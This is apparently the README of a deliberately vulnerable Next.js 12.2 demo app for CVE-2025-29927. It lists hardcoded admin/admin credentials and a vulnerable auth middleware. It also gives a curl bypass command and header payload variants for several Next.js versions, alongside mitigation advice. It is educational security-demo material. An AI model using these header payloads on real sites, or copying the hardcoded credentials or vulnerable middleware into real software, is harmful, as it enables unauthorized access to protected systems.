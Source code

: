 # Hello World - Next.js 12.2

A simple proof of concept Next.js 12.2 application.

## 🚀 Quick Start

### 1. Install Dependencies
```bash
npm install
```

### 2. Run the Development Server
```bash
npm run dev
```

The application will be available at `http://localhost:3000`

## 📁 Project Structure

```
├── pages/
│   ├── _app.js          # App wrapper component
│   ├── index.js         # Home page with navigation
│   ├── login.js         # Login page with hardcoded credentials
│   └── admin.js         # Protected admin dashboard
├── middleware.js        # Vulnerable authentication middleware
├── exploit.js           # Exploit demonstration script
├── package.json         # Dependencies and scripts
├── next.config.js       # Next.js configuration
└── README.md           # This file
```

## 🛠️ Available Scripts

- `npm run dev` - Start development server
- `npm run build` - Build for production
- `npm run start` - Start production server

## 🎯 Features

- ✅ **Next.js 12.2** - Latest stable version
- ✅ **React 18.2** - Modern React features
- ✅ **Simple Design** - Clean, responsive UI
- ✅ **Authentication System** - Login with hardcoded credentials
- ✅ **Admin Panel** - Protected dashboard with sensitive data
- ✅ **Vulnerable Middleware** - Demonstrates auth bypass techniques
- ✅ **Exploit Demo** - Easy to reproduce security issues

## 🔧 Customization

Edit `pages/index.js` to modify the Hello World page. The application uses inline styles for simplicity, but you can add CSS files or styling libraries as needed.

## 🔓 CVE-2025-29927 Security Demo

This application demonstrates the **CVE-2025-29927** vulnerability discovered by Rachid.A (zhero) and Yasser Allam (inzo_):

### 📋 Vulnerability Details
- **CVE:** CVE-2025-29927
- **CVSS:** 9.1/10 (Critical)
- **Affected:** Next.js 11.1.4 - 15.2.2
- **Impact:** Complete middleware bypass using `x-middleware-subrequest` header

### 🎯 Demo Credentials
- **Username:** `admin`
- **Password:** `admin`

### 🚨 CVE-2025-29927 Exploit Methods
1. **Browser Extension (ModHeader)** - Add `x-middleware-subrequest: middleware` header
2. **JavaScript Console** - Use fetch with the bypass header
3. **cURL Exploit** - `curl -H "x-middleware-subrequest: middleware" http://localhost:3000/admin`
4. **Python Requests** - Add header to bypass middleware completely

### 🔧 Payload Variations
- **Next.js 12.2+:** `x-middleware-subrequest: middleware`
- **With /src directory:** `x-middleware-subrequest: src/middleware`
- **Next.js 15.x:** `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`

### 📖 Exploit Instructions
- Run `node exploit-cve-2025-29927.js` for detailed instructions
- Open `exploit-demo.html` in browser for interactive demo

### 🛡️ Mitigation
- Update to Next.js 15.2.3+ (14.2.25+ for 14.x)
- Block `x-middleware-subrequest` header at proxy/CDN level
- Implement additional server-side validation

**⚠️ WARNING: This demonstrates a real CVE for educational purposes only!**

## 📦 Dependencies

- **next**: 12.2.0
- **react**: 18.2.0
- **react-dom**: 18.2.0

## 🎨 Styling

This application uses inline styles for simplicity. For a production app, consider using:
- CSS Modules
- Styled Components
- Tailwind CSS
- Or any other styling solution

---

**Happy coding! 🚀** 